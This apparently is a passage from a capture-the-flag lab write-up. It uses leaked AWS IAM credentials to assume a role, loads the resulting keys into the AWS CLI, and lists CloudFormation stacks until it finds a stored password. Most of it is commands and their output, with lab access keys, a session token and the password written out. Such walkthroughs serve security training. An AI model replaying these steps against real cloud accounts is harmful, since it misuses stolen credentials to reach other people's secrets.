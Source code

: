 Obtain temporary security credentials by assuming a specified IAM (Identity and Access Management) role in AWS of `maximus-agent` that was leaked from the git repository.
```
$ aws sts assume-role --role-arn "arn:aws:iam::925169031785:user/maximus-agent" --role-session-name 'i-assumed-an-user'
AssumedRoleUser:
  Arn: arn:aws:sts::000000000000:assumed-role/maximus-agent/i-assumed-an-user
  AssumedRoleId: AROA3X42LBCDX46XPI2U5:i-assumed-an-user
Credentials:
  AccessKeyId: AKIA9DVLPWFJEPQSAGKM
  Expiration: '2023-07-17T15:18:37.369000+00:00'
  SecretAccessKey: viZy5C8XwF+RrLe0vCxLfj9efIDJl0kEOOONNku1
  SessionToken: FQoGZXIvYXdzEBYaDg0lBY2ZIjfy+a3j+TmApXXCncc37mIKsfQ0E5ysJCIN/FgGAIDFiGx0qQRUS8qPkOSGPDVbv0PEbx0ebM6pHefylh9ZA0pdsv8Br27jx8CVBj5Y4d6wYpAyXpDlEVRzPgAi5RvgEinitTOFQ9LuTNeIHhvjUEXoFSZheDcsg0OaQupK2DjmkmVWMAARfAKD8rHtiyp+ZogkwV+lr+OdtJwHO3MsSIA82owXhNTTMsxSaw1OnHXispHZt7kZhptxg0sZR4Qf/LB+eQvZ7yyBRgb/D9qqQQfB3/8elE62eqG8HxeYddV4pQ5jaU1W6C2RJvg8GYdu1VL1SqHS/GM=
PackedPolicySize: 6
```

Configure AWS-CLI with new AWS credentials and check our userid:
```sh
$ export AWS_ENDPOINT_URL=http://cloud.emit.htb
$ aws configure                                                                                                       
AWS Access Key ID [****************ETMB]: AKIA9DVLPWFJEPQSAGKM
AWS Secret Access Key [****************9wVc]: viZy5C8XwF+RrLe0vCxLfj9efIDJl0kEOOONNku1
Default region name [us-east-1]:
Default output format [yaml]:

$ aws sts get-caller-identity                                 Account: '236190431348'
Arn: arn:aws:iam::236190431348:user/maximus-agent
UserId: AKIAIPWQSFCB9GEL2P50
```

Describe CloudFormation stacks:
https://docs.aws.amazon.com/cli/latest/reference/cloudformation/describe-stacks.html
```sh
$ aws cloudformation describe-stacks
Stacks:
...[snip]...
- Capabilities: []
  CreationTime: '2023-07-17T13:52:54.607000+00:00'
  Outputs: []
  Parameters:
  - ParameterKey: Password
    ParameterValue: dHgtu10kLmDrESd
  StackId: arn:aws:cloudformation:us-east-1:000000000000:stack/mission-deployment-stage4/a6c4d741
  StackName: mission-deployment-stage4
  StackStatus: CREATE_COMPLETE
  Tags: []
...[snip]...
```
A password of `dHgtu10kLmDrESd` is listed on the mission-deployment-stage4 stack.
